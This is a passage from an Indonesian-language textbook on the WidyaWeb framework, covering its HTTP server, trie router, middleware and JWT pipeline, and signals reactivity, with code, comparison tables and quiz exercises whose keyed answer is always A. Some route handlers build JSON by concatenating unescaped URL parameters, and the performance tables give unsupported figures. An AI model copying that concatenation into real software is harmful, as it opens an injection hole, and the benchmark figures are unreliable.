// Modul Server HTTP Multi-Threaded Non-Blocking WidyaWeb
modul peladen_http_native {
    impor ekosistem::widyaweb::{
        WidyaWeb, ServerHttpNative, KonfigurasiPeladen,
        PermintaanHttp, ResponHttp, KolamUtasPekerja, StatusHttp
    };

    fungsi jalankan_server_performa_tinggi() -> Hasil<Boolean, Teks> {
        cetak("==================================================================");
        cetak(">>> [HTTP-NATIVE] Membangun Peladen Berperforma Tinggi Event Loop...");

        // 1. Tentukan Konfigurasi Kapasitas Peladen
        biar mut konfigurasi = KonfigurasiPeladen::buat();
        konfigurasi.tetapkan_jumlah_utas_pekerja(8); // Sesuai 8 Core CPU Fisik
        konfigurasi.tetapkan_maksimal_koneksi_konkuren(50000);
        konfigurasi.tetapkan_batas_waktu_keepalive_detik(60);
        konfigurasi.tetapkan_ukuran_buffer_baca_kb(16);

        // 2. Instansiasi Peladen Native Berbasis Linux epoll
        biar mut peladen = ServerHttpNative::buat_dengan_konfigurasi(konfigurasi);
        peladen.ikat("0.0.0.0", 8080)?;

        // 3. Pasang Handler Penanganan Permintaan HTTP
        peladen.tangani(|req: PermintaanHttp| -> ResponHttp {
            biar jalur = req.jalur();
            biar metode = req.metode();

            // Demonstrasi Eksekusi Kueri Cepat Non-Blocking
            jika metode == "GET" && jalur == "/api/v1/breaking-news" {
                biar payload = "{\"judul\": \"Kedaulatan Digital Dideklarasikan\", \"waktu\": \"2026-10-20T08:00:00Z\"}";
                kembalikan ResponHttp::buat(StatusHttp::Ok)
                    .tambah_header("Content-Type", "application/json")
                    .tambah_header("Server", "WidyaWeb-Native/2.5.0")
                    .isi_badan(payload);
            }

            kembalikan ResponHttp::buat(StatusHttp::NotFound)
                .isi_badan("Rute tidak ditemukan pada peladen berdaulat.");
        });

        cetak(">>> [HTTP-NATIVE] Event Loop aktif. Menunggu permintaan di port 8080...");
        cetak("==================================================================");
        peladen.mulai_mendengarkan()?;

        kembalikan Ok(benar);
    }
}
```

### 3.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan performa penanganan koneksi konkurensi pada WidyaWeb:

| Karakteristik Konkurensi | Thread-per-Connection (Blocking) | Event Loop Single-Thread (Node.js) | WidyaWeb Multi-Thread Event Loop |
| :--- | :--- | :--- | :--- |
| **Pemanfaatan Inti CPU Multi-Core**| Terbatas (Banyak Context Switch) | Hanya 1 Core (Perlu Cluster Mode) | **100% Merata di Seluruh Core CPU** |
| **Konsumsi Memori per Koneksi** | Sangat Boros (2–8 MB per Utas) | Hemat (~20 KB per Soket) | **Ultra Hemat (~8 KB per Soket)** |
| **Ketahanan Terhadap Beban Berat** | Crash OOM pada ~3.000–5.000 koneksi | Event Loop Lag jika ada tugas CPU | **Stabil Melayani > 50.000 Koneksi** |
| **Throughput Permintaan (Req/Sec)**| 8.000 – 15.000 req/s | 25.000 – 45.000 req/s | **95.000 – 140.000 req/s Native** |
| **Latensi Respons pada Puncak Beban**| Melompat Tinggi (> 500 ms) | Sedang (Tergantung GC Pauses) | **Sangat Stabil (< 2.5 ms, Nol GC)** |

### 3.4 Latihan Soal Esai

1. Terangkan mengapa model konkurensi *Thread-per-Connection* konvensional mengalami kemacetan parah saat menghadapi masalah C10K (sepuluh ribu koneksi bersamaan)!
2. Bagaimana mekanisme kerja sistem panggilan kernel Linux `epoll` atau `io_uring` yang diimplementasikan pada `pure_http.rs` WidyaWeb dalam memantau ribuan soket aktif secara efisien?
3. Mengapa teknik *Zero-Copy HTTP Parsing* (menggunakan string slices `&str` alih-alih mengalokasikan string baru di memori heap) mampu melipatgandakan throughput pemrosesan permintaan web?

### 3.5 Soal Pilihan Ganda

1. Masalah klasik rekayasa perangkat lunak web mengenai ketidakmampuan peladen melayani 10.000 koneksi serempak dinamakan...
   A. C10K Problem
   B. Y2K Bug
   C. Null Pointer Exception
   D. Buffer Spill

2. Primitif multiplexing I/O performa tinggi pada kernel Linux yang digunakan oleh event loop WidyaWeb adalah...
   A. `epoll` dan `io_uring`
   B. `select` kuno
   C. `sleep` loop
   D. `cron` job

3. Dalam arsitektur server HTTP WidyaWeb, peran utama dari utas penerima (Acceptor Thread) adalah...
   A. Menerima jabat tangan koneksi TCP baru dan mendaftarkannya ke pemantau event loop
   B. Mengetik artikel berita otomatis
   C. Menghapus log sistem operasi
   D. Menjalankan kompilasi kernel

4. Keuntungan utama teknik Zero-Copy Parsing saat mengurai header permintaan HTTP adalah...
   A. Menghilangkan alokasi memori heap baru dan menghindari penyalinan string yang membebani CPU
   B. Mengubah tipe teks menjadi angka
   C. Menghapus header keamanan
   D. Mematikan sambungan internet

5. Jumlah utas pekerja (Worker Thread Pool) yang ideal dialokasikan pada peladen web berkinerja tinggi adalah...
   A. Disesuaikan dengan jumlah inti fisik prosesor CPU peladen (num_cpus)
   B. Selalu 1 utas saja
   C. Satu juta utas
   D. 0 utas

6. Fitur HTTP yang mempertahankan koneksi TCP tetap terbuka untuk beberapa permintaan berikutnya tanpa membuka koneksi baru dinamakan...
   A. HTTP Keep-Alive / Persistent Connection
   B. Half-Close
   C. Fast Disconnect
   D. Force Terminate

7. Kode status HTTP yang dikembalikan oleh peladen saat antrean tugas melebihi kapasitas aman untuk mencegah server mengalami crash adalah...
   A. `503 Service Unavailable`
   B. `200 OK`
   C. `404 Not Found`
   D. `301 Moved Permanently`

8. Mengapa peladen web native WidyaWeb bebas dari jeda henti pengumpulan sampah (Garbage Collection Pauses)?
   A. Karena dibangun di atas manajemen memori deterministik berbasis model kepemilikan (ownership & RAII) tanpa garbage collector
   B. Karena tidak menggunakan memori RAM
   C. Karena server dimatikan setiap 5 menit
   D. Karena hanya memproses teks kosong

9. Ukuran jejak memori per soket koneksi pasif pada arsitektur non-blocking WidyaWeb adalah sekitar...
   A. ~8 Kilobyte per soket
   B. 50 Megabyte per soket
   C. 1 Gigabyte per soket
   D. 0 byte

10. Keberhasilan WidyaWeb mencatat throughput di atas 100.000 permintaan per detik membuktikan bahwa...
    A. Arsitektur multi-thread event loop native mampu mengemban lonjakan trafik berita nasional saat peristiwa besar tanpa henti
    B. Bahasa Widya-Lang hanya bisa digunakan untuk pengujian
    C. Server web tidak membutuhkan sistem operasi
    D. Seluruh situs berita di dunia harus dibuat ulang

---

## Bab 4: Router Kecepatan Tinggi Berbasis Trie & Parameter Dinamis

### 4.1 Pencocokan Rute Secepat Kilat: O(K) Bebas Ekspresi Reguler

Dalam aplikasi portal berita modern seperti NusantaraNews, peladen harus memetakan ribuan pola URL yang beragam setiap detiknya:
- Rute statis: `/`, `/tentang-kami`, `/pedoman-media-siber`
- Rute berparameter dinamis: `/berita/:kategori/:slug_artikel`
- Rute berparameter numerik: `/api/v1/artikel/:id/komentar`
- Rute penangkap semua (*Wildcard / Catch-All*): `/arsip/*jalur_lengkap`

Jika sistem router diimplementasikan secara naif menggunakan pencocokan daftar ekspresi reguler linier (*Linear Regex List* seperti pada framework generasi awal):
- Setiap permintaan masuk harus diuji satu per satu terhadap puluhan pola regex ($O(N \times L)$).
- Menghabiskan siklus CPU dan memperlambat latensi perutean seiring bertambahnya jumlah rute aplikasi.

WidyaWeb mengatasi hambatan ini dengan mengimplementasikan **Router Kecepatan Tinggi Berbasis Struktur Data Pohon Trie (*Radix / Trie-Based Router*)** native (`pure_router.rs`):
- **Kompleksitas Waktu Berdasarkan Panjang URL ($O(K)$)**: Waktu pencarian rute hanya bergantung pada kedalaman segmen URL yang diminta ($K$), **sama sekali independen dari berapa ribu rute yang terdaftar** di dalam aplikasi.
- **Dukungan Segmen Dinamis & Ekstraksi Nol-Alokasi**: Segmen bertanda titik dua (`:kategori`) secara otomatis diekstraksi ke dalam kamus parameter rute berbasis pointer string slices tanpa alokasi memori heap baru.
- **Prioritas Resolusi Rute Konflik Deterministik**: Rute statis eksak selalu diprioritaskan terlebih dahulu di atas rute parameter dinamis, dan rute parameter diprioritaskan di atas rute penangkap liar (*Wildcard* `*`).



Fitur utama implementasi Trie Router di WidyaWeb:
1. **Pemisahan Metode HTTP Independen**: Pohon Trie dipisahkan per metode HTTP (`GET`, `POST`, `PUT`, `DELETE`, `PATCH`), mencegah pencarian yang tidak relevan.
2. **Validasi Tipe Data Segmen Inline**: Mendukung batasan tipe parameter langsung pada rute (misal: `/artikel/:id:bulat`), mengembalikan `400 Bad Request` otomatis jika tipe tidak valid.
3. **Peringatan Rute Tumpang Tindih pada Fase Kompilasi**: Jika pengembang mendaftarkan dua rute ambigu yang berpotensi menimbulkan tabrakan pola, router membangkitkan peringatan diagnostik sejak awal.

### 4.2 Implementasi Kode Program Utuh

Berikut implementasi Trie Router dengan penanganan parameter dinamis dan wildcard pada WidyaWeb menggunakan Widya-Lang:

```widya
// Modul Router Trie dan Parameter Dinamis WidyaWeb
modul perute_trie_dinamis {
    impor ekosistem::widyaweb::{
        WidyaWeb, PeruteTrie, PermintaanHttp, ResponHttp,
        KonteksRute, StatusHttp, KontenTipe
    };

    fungsi bangun_pohon_rute_portal_berita() -> PeruteTrie {
        cetak("==================================================================");
        cetak(">>> [ROUTER-TRIE] Membangun Pohon Trie Rute Portal Berita...");

        biar mut router = PeruteTrie::buat();

        // 1. Rute Statis Eksak
        router.daftarkan("GET", "/", |_req: PermintaanHttp, _ctx: KonteksRute| -> ResponHttp {
            kembalikan ResponHttp::ok(KontenTipe::Teks, "Halaman Beranda NusantaraNews");
        });

        // 2. Rute Parameter Dinamis Dua Tingkat (:kategori / :slug)
        router.daftarkan("GET", "/berita/:kategori/:slug", |req: PermintaanHttp, ctx: KonteksRute| -> ResponHttp {
            biar kategori = ctx.ambil_param("kategori").buka();
            biar slug = ctx.ambil_param("slug").buka();

            biar json = "{\"kanal\": \"" + kategori + "\", \"artikel\": \"" + slug + "\", \"views\": 15200}";
            kembalikan ResponHttp::ok(KontenTipe::Json, json);
        });

        // 3. Rute Parameter Numerik API (:id)
        router.daftarkan("GET", "/api/v1/artikel/:id/komentar", |req: PermintaanHttp, ctx: KonteksRute| -> ResponHttp {
            biar id_artikel = ctx.ambil_param("id").buka();
            biar respon = "{\"id_artikel\": " + id_artikel + ", \"total_komentar\": 48}";
            kembalikan ResponHttp::ok(KontenTipe::Json, respon);
        });

        // 4. Rute Penangkap Wildcard Seluruh Jalur Arsip
        router.daftarkan("GET", "/arsip/*jalur", |_req: PermintaanHttp, ctx: KonteksRute| -> ResponHttp {
            biar sisa_jalur = ctx.ambil_param("jalur").buka();
            kembalikan ResponHttp::ok(KontenTipe::Teks, "Menelusuri Arsip Historis: " + sisa_jalur);
        });

        cetak(">>> [ROUTER-TRIE] Struktur pohon rute selesai dikompilasi.");
        kembalikan router;
    }

    fungsi uji_resolusi_pencocokan_rute() -> Hasil<Boolean, Teks> {
        biar router = bangun_pohon_rute_portal_berita();

        // Uji Kasus 1: Akses Artikel Berita Politik
        biar url_1 = "/berita/politik/deklarasi-kemandirian-teknologi-2026";
        cetak(">>> [PENGUJIAN-1] Menyelesaikan rute: " + url_1);
        biar hasil_1 = router.cocokkan("GET", url_1);
        jika biar Ada(pencocokan) = hasil_1 {
            cetak("  ✓ Berhasil dicocokkan ke Handler DetailArtikel!");
            cetak("  ★ Param 'kategori': " + pencocokan.konteks.ambil_param("kategori").buka());
            cetak("  ★ Param 'slug'    : " + pencocokan.konteks.ambil_param("slug").buka());
        }

        // Uji Kasus 2: Akses Wildcard Arsip
        biar url_2 = "/arsip/2026/10/edisi-khusus-kedaulatan";
        cetak(">>> [PENGUJIAN-2] Menyelesaikan rute wildcard: " + url_2);
        biar hasil_2 = router.cocokkan("GET", url_2);
        jika biar Ada(pencocokan) = hasil_2 {
            cetak("  ✓ Berhasil dicocokkan ke Handler Arsip!");
            cetak("  ★ Param 'jalur': " + pencocokan.konteks.ambil_param("jalur").buka());
        }

        cetak("==================================================================");
        kembalikan Ok(benar);
    }
}
```

### 4.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan algoritma router URL pada framework web:

| Algoritma Router | Kompleksitas Pencarian | Dampak Penambahan 1.000 Rute | Alokasi Memori per Permintaan |
| :--- | :--- | :--- | :--- |
| **Linear Regex Matching** (Express awal)| $O(N \times L)$ (Lambat) | Latensi membengkak linear | Tinggi (Objek regex heap) |
| **Hash Map Table** | $O(1)$ Instan | Tetap $O(1)$ | Tidak mendukung parameter `:id` |
| **Pohon Radix / Trie (WidyaWeb)** | **$O(K)$ Sangat Cepat** | **Nol Dampak (Tetap Stabil)** | **Nol Alokasi (String Slices)** |
| **FSM (Finite State Machine)** | $O(K)$ Cepat | Kompleksitas kompilasi tinggi | Rendah |

### 4.4 Latihan Soal Esai

1. Mengapa struktur data pohon Trie (Radix Tree) jauh lebih unggul dan skalabel daripada daftar ekspresi reguler linier dalam menangani ribuan pola URL portal berita?
2. Bagaimana mekanisme resolusi konflik hierarkis pada router WidyaWeb ketika sebuah URL cocok dengan rute statis (`/berita/terbaru`) sekaligus rute parameter dinamis (`/berita/:kategori`)?
3. Uraikan teknik ekstraksi parameter dinamis tanpa alokasi (*Zero-Allocation Parameter Extraction*) menggunakan pointer irisan string (*string slices*) pada memori kerja router!

### 4.5 Soal Pilihan Ganda

1. Struktur data pohon berkinerja tinggi yang digunakan oleh router WidyaWeb untuk mencocokkan rute dalam waktu O(K) adalah...
   A. Radix Tree / Trie
   B. Binary Search Tree
   C. Red-Black Tree
   D. Linked List

2. Kompleksitas waktu pencarian rute pada Trie Router dengan panjang URL sebesar K karakter adalah...
   A. $O(K)$ independen dari jumlah total rute yang terdaftar
   B. $O(N^2)$
   C. $O(N!)$
   D. $O(1)$ acak

3. Simbol awalan yang digunakan untuk mendefinisikan segmen URL dinamis (seperti `:slug` atau `:id`) adalah...
   A. Simbol titik dua (`:`)
   B. Simbol tanda seru (`!`)
   C. Simbol bintang (`*`)
   D. Simbol pagar (`#`)

4. Simbol yang digunakan untuk mendefinisikan rute penangkap liar (Catch-All / Wildcard) adalah...
   A. Simbol bintang (`*`)
   B. Simbol tanda tanya (`?`)
   C. Simbol persen (`%`)
   D. Simbol ampersand (`&`)

5. Urutan prioritas resolusi rute pada WidyaWeb jika terjadi potensi tabrakan pola rute adalah...
   A. Rute Statis Eksak > Rute Parameter Dinamis (`:param`) > Rute Wildcard (`*`)
   B. Rute Wildcard selalu menang
   C. Tergantung urutan abjad
   D. Dipilih secara acak

6. Keuntungan ekstraksi parameter berbasis irisan string (String Slices `&str`) pada router adalah...
   A. Menghindari alokasi memori heap baru sehingga menghemat siklus CPU peladen
   B. Mengubah tipe string menjadi integer
   C. Memperbesar ukuran memori
   D. Menghapus karakter spasi

7. Apa yang dilakukan oleh Trie Router WidyaWeb jika URL yang diminta klien tidak cocok dengan cabang pohon mana pun?
   A. Mengembalikan respons status `404 Not Found` secara otomatis
   B. Mematikan peladen
   C. Menginstal ulang sistem operasi
   D. Mengirimkan email ke administrator

8. Mengapa pohon Trie pada WidyaWeb dipisahkan per metode HTTP (GET, POST, PUT, DELETE)?
   A. Mencegah penelusuran cabang rute metode lain yang tidak relevan sehingga mempercepat pencocokan
   B. Karena protokol TCP melarang metode ganda
   C. Untuk memperindah tampilan kode
   D. Supaya memori RAM server menjadi dingin

9. Rute seperti `/artikel/:id:bulat` pada router WidyaWeb mengindikasikan fitur...
   A. Validasi batasan tipe data parameter rute secara langsung pada saat pencocokan (Inline Route Constraint)
   B. Kompresi gambar otomatis
   C. Enkripsi password
   D. Penghapusan artikel lama

10. Mengapa performa router Trie tetap konstan meskipun aplikasi portal berita NusantaraNews memiliki lebih dari 5.000 rute kategori dan artikel?
    A. Karena langkah penelusuran pohon hanya mengikuti kedalaman segmen garis miring URL yang diminta, bukan jumlah total rute
    B. Karena semua rute dihapus dari memori
    C. Karena server menggunakan kabel serat optik
    D. Karena basis data menggantikan fungsi router

---

## Bab 5: Pipeline Middleware: Rantai Interseptor & Konteks Sesi

### 5.1 Arsitektur Rantai Tanggung Jawab: Interseptor Masuk & Keluar

Dalam pengembangan aplikasi web skala enterprise, logika lintas-sektoral (*cross-cutting concerns*)—seperti pencatatan log akses (*Access Logging*), pemeriksaan token autentikasi (JWT), pembatasan laju kueri (*Rate Limiting*), penanganan header keamanan CORS, dan kompresi konten—tidak boleh dicampuradukkan ke dalam fungsi kontroler logika bisnis artikel berita.

WidyaWeb menerapkan pola arsitektur **Rantai Tanggung Jawab (*Chain of Responsibility / Middleware Pipeline*)** native (`pure_middleware.rs`):
- **Model Interseptor Bawang (*Onion Middleware Model*)**: Setiap lapisan middleware membungkus kontroler di dalamnya. Middleware dapat mengeksekusi kode sebelum kontroler dipanggil (*Pre-Processing*), memutuskan apakah akan meneruskan permintaan ke lapisan berikutnya via metode `berikutnya()` (*next*), atau mencegat dan menolak akses seketika (*Early Rejection*), serta memodifikasi header respons saat aliran balik (*Post-Processing*).
- **Konteks Sesi Tipe-Aman (*Type-Safe Session Context*)**: Wadah metadata yang melekat pada setiap siklus hidup permintaan HTTP, memungkinkan middleware autentikasi menyuntikkan identitas pengguna (`user_id`, `peran`, `tenant_id`) untuk dibaca secara aman oleh handler di bawahnya.

```mermaid
flowchart TD
    Req["Permintaan HTTP Klien Masuk"] --> M1["1. Logger Middleware (Catat IP, Waktu, User-Agent)"]
    M1 --> M2["2. RateLimiter Middleware (Token Bucket Check)"]
    M2 -->|Token Habis (Limit Melebihi Batas)| E429["Tolak: 429 Too Many Requests"]
    M2 -->|Token Tersedia| M3["3. Cors & SecurityHeaders Middleware"]
    M3 --> M4["4. Auth & JWT Verification Middleware"]
    M4 -->|Token Kadaluwarsa / Palsu| E401["Tolak: 401 Unauthorized"]
    M4 -->|Token Sah: Suntikkan Sesi Pengguna| Handler["Kontroler Logika Bisnis: Baca & Terbitkan Berita"]
    Handler --> M4_out["Post-Auth"]
    M4_out --> M3_out["Suntik Header: CSP, HSTS, X-Frame-Options"]
    M3_out --> M2_out["Post-RateLimit"]
    M2_out --> M1_out["Hitung Durasi Latensi Eksekusi (ms) & Tulis Log"]
    M1_out --> Res["Respons HTTP Mengalir ke Klien"]
```

Jenis tindakan tanggapan middleware pada WidyaWeb:
1. `ResponMiddleware::Lanjutkan`: Melanjutkan eksekusi ke lapisan berikutnya dengan menyertakan header tambahan atau konteks yang diperkaya.
2. `ResponMiddleware::AlihkanRute`: Mencegat permintaan dan mengalihkan klien ke URL lain (misal: redirect `302 Found` ke halaman login jika sesi habis).
3. `ResponMiddleware::TolakAkses`: Menolak permintaan seketika dengan kode status tertentu (misal: `401 Unauthorized` atau `429 Too Many Requests`) tanpa menyentuh kontroler bisnis.

### 5.2 Implementasi Kode Program Utuh

Berikut implementasi pipeline middleware terpadu (Logger, Token Bucket Rate Limiter, dan JWT Verifier) pada WidyaWeb menggunakan Widya-Lang:

```widya
// Modul Pipeline Middleware dan Autentikasi Sesi WidyaWeb
modul rantai_middleware {
    impor ekosistem::widyaweb::{
        WidyaWeb, RantaiMiddleware, PermintaanHttp, ResponHttp,
        KonteksSesi, ResponMiddleware, TokenBucket, VerifikatorJWT
    };

    fungsi pasang_pipeline_keamanan(app: &mut WidyaWeb) {
        cetak("==================================================================");
        cetak(">>> [MIDDLEWARE] Memasang Pipeline Rantai Keamanan Berlapis...");

        // Middleware 1: Pencatat Waktu & Metrik Permintaan (Logger)
        app.gunakan_middleware(|req: &PermintaanHttp, ctx: &mut KonteksSesi| -> ResponMiddleware {
            ctx.simpan_waktu_mulai();
            cetak(">>> [LOG] " + req.metode() + " " + req.jalur() + " | IP: " + req.ip_klien());
            kembalikan ResponMiddleware::Lanjutkan;
        });

        // Middleware 2: Pembatas Laju Akses Token Bucket (Anti-Spam / Anti-DDoS)
        biar mut pembatas_laju = TokenBucket::buat(100, 20); // Kapasitas 100 token, isi ulang 20 token/detik
        app.gunakan_middleware(pembatas_laju.ke_middleware());

        // Middleware 3: Verifikasi JWT dan Pengikatan Konteks Pengguna
        app.gunakan_middleware(|req: &PermintaanHttp, ctx: &mut KonteksSesi| -> ResponMiddleware {
            // Rute publik beranda dan login dibebaskan dari verifikasi token
            jika req.jalur().dimulai_dengan("/api/v1/publik") || req.jalur() == "/" {
                kembalikan ResponMiddleware::Lanjutkan;
            }

            biar header_auth = req.ambil_header("Authorization");
            cocokkan header_auth {
                Ada(auth_str) jika auth_str.dimulai_dengan("Bearer ") => {
                    biar token = auth_str.potong_awal("Bearer ");
                    biar hasil_verifikasi = VerifikatorJWT::verifikasi_ed25519(&token, "KUNCI_PUBLIK_WIDYA_2026");

                    cocokkan hasil_verifikasi {
                        Ok(klaim) => {
                            // Suntikkan metadata ke dalam konteks sesi permintaan
                            ctx.tetapkan("id_pengguna", klaim.ambil_string("sub"));
                            ctx.tetapkan("peran", klaim.ambil_string("role"));
                            kembalikan ResponMiddleware::Lanjutkan;
                        },
                        Salah(_) => {
                            kembalikan ResponMiddleware::TolakAkses(401, "Token JWT tidak sah atau telah kedaluwarsa.");
                        }
                    }
                },
                _ => {
                    kembalikan ResponMiddleware::TolakAkses(401, "Header Authorization Bearer diperlukan untuk rute ini.");
                }
            }
        });

        cetak(">>> [MIDDLEWARE] 3 lapisan middleware aktif melindungi kontroler.");
        cetak("==================================================================");
    }
}
```

### 5.3 Analisis Arsitektur, Metrik & Tabel Spesifikasi

Tabel perbandingan pola middleware pada platform web modern:

| Parameter Evaluasi | Express / Koa (Node.js) | Gin / Fiber (Go) | WidyaWeb Native Pipeline |
| :--- | :--- | :--- | :--- |
| **Pola Eksekusi** | Callback Asinkron Berantai | Rantai Indeks Array (`Next()`) | **Onion Interceptor Zero-Alloc** |
| **Keamanan Tipe Konteks Sesi** | Tidak Aman (`req.user: any`) | Semi Aman (`c.Get(key).(type)`)| **Type-Safe Session Context** |
| **Alokasi Memori per Lapisan** | Alokasi Objek Promise Heap | Alokasi Struct Konteks | **Pointer Referensi Stack (Nol Alokasi)** |
| **Dukungan Circuit Breaker** | Pustaka Luar Terpisah | Pustaka Pihak Ketiga | **Built-in Native Resiliency** |
| **Overhead Latensi Pipeline** | 0.8 – 2.5 milidetik | 0.1 – 0.3 milidetik | **< 0.05 milidetik (Ultra Cepat)** |

### 5.4 Latihan Soal Esai

1. Terangkan model eksekusi interseptor bawang (*Onion Model*) pada pipeline middleware! Mengapa model ini memungkinkan eksekusi kode *Pre-Processing* dan *Post-Processing* secara simetris dalam satu fungsi middleware?
2. Bagaimana mekanisme kerja *Token Bucket Rate Limiter* dalam mencegah serangan banjir permintaan (*Denial of Service*) pada API publik portal berita tanpa menolak pengguna sah yang melakukan lonjakan akses wajar?
3. Mengapa penyimpanan data identitas pengguna pada objek *Context Sesi* yang bertipe aman (*Type-Safe*) jauh lebih unggul dibandingkan menyematkannya secara bebas pada objek *Request* bertipe dinamis?

### 5.5 Soal Pilihan Ganda

1. Pola arsitektur perangkat lunak yang mendasari perancangan pipeline middleware pada WidyaWeb adalah...
   A. Chain of Responsibility (Rantai Tanggung Jawab)
   B. Model-View-Controller
   C. Singleton Murni
   D. Observer Linier

2. Tiga jenis nilai kembalian `ResponMiddleware` yang dapat diputuskan oleh sebuah middleware pada WidyaWeb adalah...
   A. `Lanjutkan`, `AlihkanRute`, dan `TolakAkses`
   B. `Buka`, `Baca`, dan `Tutup`
   C. `Mulai`, `Tunggu`, dan `Selesai`
   D. `Simpan`, `Hapus`, dan `Format`

3. Kode status HTTP standar yang dikembalikan oleh middleware Rate Limiter ketika seorang klien melampaui batas kuota permintaan yang diizinkan adalah...
   A. `429 Too Many Requests`
   B. `200 OK`
   C. `404 Not Found`
   D. `500 Internal Server Error`

4. Kode status HTTP yang dikembalikan oleh middleware autentikasi ketika permintaan tidak menyertakan token kredensial yang sah adalah...
   A. `401 Unauthorized`
   B. `403 Forbidden`
   C. `204 No Content`
   D. `502 Bad Gateway`

5. Komponen pembawa metadata sesi yang mengalir di sepanjang rantai middleware hingga ke kontroler logika bisnis dinamakan...
   A. Konteks Sesi (Session Context)
   B. Harddisk Buffer
   C. Frame Index
   D. Global Mutex

6. Mekanisme keamanan web yang mengatur domain peramban mana saja yang diizinkan memanggil API portal berita dari luar domain asal dinamakan...
   A. Cross-Origin Resource Sharing (CORS)
   B. Content Security Policy (CSP)
   C. Subresource Integrity (SRI)
   D. DNS Prefetch

7. Header keamanan HTTP yang menginstruksikan peramban agar hanya terhubung melalui sambungan terenkripsi HTTPS secara permanen adalah...
   A. `Strict-Transport-Security` (HSTS)
   B. `Cache-Control`
   C. `User-Agent`
   D. `Accept-Encoding`

8. Dalam model Onion Middleware, kapan kode *Post-Processing* suatu middleware dieksekusi?
   A. Setelah fungsi kontroler bisnis selesai mengeksekusi logika dan respons sedang mengalir kembali ke luar
   B. Sebelum server dinyalakan
   C. Saat koneksi jaringan diputus
   D. Setiap tengah malam

9. Standar format token web kompak dan mandiri (*stateless*) yang diverifikasi oleh middleware autentikasi adalah...
   A. JSON Web Token (JWT)
   B. File XML
   C. Cookie Flash
   D. Gambar Bitmap

10. Mengapa pemisahan logika keamanan ke dalam lapisan middleware sangat krusial bagi arsitektur portal berita skala besar?
    A. Mencegah duplikasi kode pengamanan di setiap handler artikel dan memastikan seluruh rute terlindungi secara terpusat dan konsisten
    B. Supaya berita dapat ditulis otomatis tanpa campur tangan redaksi
    C. Menghilangkan kebutuhan koneksi internet
    D. Mengurangi konsumsi memori pada layar monitor pembaca

---

## Bab 6: Manajemen State & Reaktivitas Berbutir Halus (Signals)

### 6.1 Runtuhnya Virtual DOM: Evolusi Menuju Fine-Grained Reactivity

Selama satu dekade terakhir, dunia pengembangan antarmuka web didominasi oleh paradigma **Virtual DOM (VDOM)** yang dipopulerkan oleh framework generasi lama seperti React. Pada pendekatan VDOM:
- Setiap kali suatu variabel state berubah, framework merender ulang seluruh pohon komponen secara virtual.
- Menjalankan algoritma pembandingan (*Diffing Algorithm*) yang membandingkan pohon virtual lama dengan pohon virtual baru ($O(N)$ node) untuk menemukan perbedaan.
- Mengakibatkan pemborosan memori heap, latensi CPU yang tinggi pada ponsel berdaya rendah, dan komputasi render yang sia-sia (*Over-Rendering*).

WidyaWeb meninggalkan Virtual DOM secara total dan mengadopsi paradigma mutakhir **Reaktivitas Berbutir Halus (*Fine-Grained Reactivity*)** berbasis struktur data **Signals & Reactive Dependency Graph** (`reactive.rs`):
- **Sinyal Reaktif (*Reactive Signals*)**: Pembungkus nilai yang secara otomatis melacak fungsi komputasi mana saja yang membacanya (*Auto-Tracking Subscribers*).
- **Pembaruan DOM Bertarget Instan ($O(1)$)**: Ketika nilai sebuah sinyal berubah (misal: jumlah `likes` artikel berita bertambah 1), **hanya satu simpul teks DOM spesifik itu saja yang diperbarui secara langsung di peramban** tanpa merender ulang komponen induk maupun mengeksekusi algoritma diffing VDOM.
- **Kompilasi Graf Ketergantungan Statis**: Graf relasi antar sinyal dianalisis pada fase kompilasi Widya-Lang, menghilangkan beban pelacakan dinamis saat runtime.

```mermaid
flowchart TD
    S1["Sinyal: jumlah_pembaca = 1.420"] --> D1["Efek Reaktif: Update <span> di Navbar"]
    S2["Sinyal: status_breaking_news = 'Gempa Bumi 6.2 SR'"] --> D2["Efek Reaktif: Render Ticker Banner"]
    
    Aksi["Pengguna Mengklik Tombol 'Suka' (Event w-click)"] -->|Mutasi Nilai| S3["Sinyal: total_suka = 850 (+1)"]
    S3 -->|Notifikasi Langsung O(1) Tanpa VDOM Diffing!| D3["Perbarui Langsung DOM: <span id='btn-like-count'>851</span>"]
```

Tiga pilar primitif reaktivitas di WidyaWeb:
1. `Sinyal<T>` (*Signal*): State reaktif primitif yang memegang nilai dan menyediakan metode baca (`baca()`) dan tulis (`atur()`).
2. `Komputasi<T>` (*Derived / Computed Value*): Nilai turunan yang secara otomatis dihitung ulang hanya jika salah satu sinyal yang menjadi sumber dependensinya mengalami perubahan (*Memoized Evaluation*).
3. `Efek` (*Reactive Effect / Watcher*): Prosedur yang dieksekusi secara otomatis sebagai efek samping ketika sinyal di dalamnya berubah (misalnya: memperbarui teks DOM, memicu panggilan jaringan, atau menyimpan riwayat ke penyimpanan lokal).

### 6.2 Implementasi Kode Program Utuh

